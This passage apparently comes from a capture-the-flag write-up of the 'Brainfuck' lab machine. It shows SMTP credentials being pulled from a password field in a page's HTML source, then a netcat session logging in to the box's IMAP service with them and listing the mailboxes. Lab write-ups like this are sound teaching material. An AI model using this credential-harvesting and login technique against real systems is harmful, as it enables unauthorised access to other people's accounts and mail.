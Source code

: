 ![](/assets/images/brainfuck7.png)

We see some interesting settings being saved, including a `SMTP` username and even a `SMTP` password! If we press on `F12` to enter Developer's Mode and view the `HTML` source code, we can see a password being stored as the `value` attribute.

![](/assets/images/brainfuck8.png)

Together with the username and password that we found, we get `orestis:kHGuERB29DNiNE`.

## Port 143 ` Dovecot imapd`

Using `nc`, we can access the `IMAP` service on port `143` and login as `orestis`.

```bash
$ nc -v brainfuck.htb 143  
brainfuck.htb [10.10.10.17] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Dovecot ready.
A1 LOGIN orestis kHGuERB29DNiNE
A1 OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SPECIAL-USE] Logged in
A1 LIST "" * 
* LIST (\HasNoChildren) "/" INBOX
A1 OK List completed (0.000 + 0.000 secs).
```
